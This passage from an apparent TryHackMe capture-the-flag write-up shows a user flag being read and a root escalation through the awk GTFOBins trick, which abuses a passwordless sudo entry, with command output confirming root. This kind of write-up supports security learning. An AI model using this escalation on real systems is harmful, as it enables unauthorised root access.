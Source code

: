 ```
    link/ether 02:72:4d:ef:1b:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.53.4/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::72:4dff:feef:1b1f/64 scope link 
       valid_lft forever preferred_lft forever
```

**Flag4:**
```
cat@ubuntu:~$ cat flag4 
THM{$4${Redacted}}
```

### 3.5. cat to root

**Let's check `sudo` permission:**
```
cat@ubuntu:~$ sudo -l
Matching Defaults entries for cat on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cat may run the following commands on ubuntu:
    (root) NOPASSWD: /home/patrick/.bank_work/script.sh
    (root) NOPASSWD: /usr/bin/awk
```

Hmm... We can run `/usr/bin/awk` and `/home/patrick/.bank_work/script.sh` as root without password!

**Accord to [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell), we can escalate to root via:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Bank-CTF/images/Pasted%20image%2020221229004758.png)

**Let's do that:**
```
cat@ubuntu:~$ sudo awk 'BEGIN {system("/bin/bash")}'
root@ubuntu:~# whoami;hostname;id;ip a
root
ubuntu
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:72:4d:ef:1b:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.53.4/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```